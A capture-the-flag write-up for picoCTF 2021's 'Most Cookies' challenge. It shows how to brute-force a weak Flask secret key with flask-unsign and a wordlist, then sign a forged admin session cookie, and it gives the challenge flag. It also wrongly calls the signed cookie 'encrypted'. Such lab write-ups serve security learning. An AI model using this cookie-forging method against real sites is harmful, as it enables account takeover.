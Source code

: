 # Most Cookies - picoCTF 2021 <br>

Author - AdamTempest <br>
Date - 9 August, 2022 <br>
Challenge-details: <br>
> Create the fake admin cookie and encrypt it using the same secret key, which was used to encrypt original cookie.

Given: server.py - the python code of the website.



## Solution

#### Investigation
1. Analyzed the code.py <br>

Flask secret key was the **randomly selected element of cookie_names list.** <br>
That means we can acquire secret key by simply trying every element from the list. <br>
Saved the cookie_names list in a different file to bruteforce the secret key.


2. Retrieved the cookie using the cookie editor add-on.

3. Tried to decrypt it with base64

```bash
echo cookie | base64 -d	
```
got the cookie format; <br>
`{"very_auth","blank"}`

#### Exploitation phase
1. Generated a wordlist with saved list of cookie_names

```python
with open('wordlist.txt','w') as f:
   wordlist = cookie_names 
   for i in wordlist:
      f.write( "\n" + i )
```


2. Used flask-unsign to bruteforce the secret key out of encrypted cookie with the following command:

```bash
	flask-unsign --unsign --cookie <insert_cookie> --wordlist wordlist.txt
```

3. Encrypted the fake admin cookie

```bash
	flask-unsign --sign --cookie {"very_auth","admin"} --secret <insert_secret_key>
```

4. Assigned the encrypted cookie with cookie editor and refreshed the webpage. Then the flag appeared.

```
	picoCTF{pwn_4ll_th3_cook1E5_5f016958}
```
"# CTF"
